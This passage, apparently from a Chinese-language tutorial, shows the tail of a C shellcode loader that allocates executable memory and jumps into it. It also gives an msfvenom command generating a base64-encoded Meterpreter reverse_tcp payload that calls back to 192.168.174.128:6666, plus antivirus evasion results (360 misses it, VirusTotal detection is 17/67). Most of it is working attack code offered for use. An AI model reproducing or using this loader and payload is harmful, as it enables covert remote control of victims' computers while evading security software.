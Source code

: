 ```c
    Memory = VirtualAlloc(NULL, sizeof(str3), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, str3, sizeof(str3));

    ((void(*)())Memory)();

    return 0;
}
```

使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**。

virustotal.com上查杀率为17/67（原po为28/69）。

![image-20220530155809229](./images/202205301558330.png)
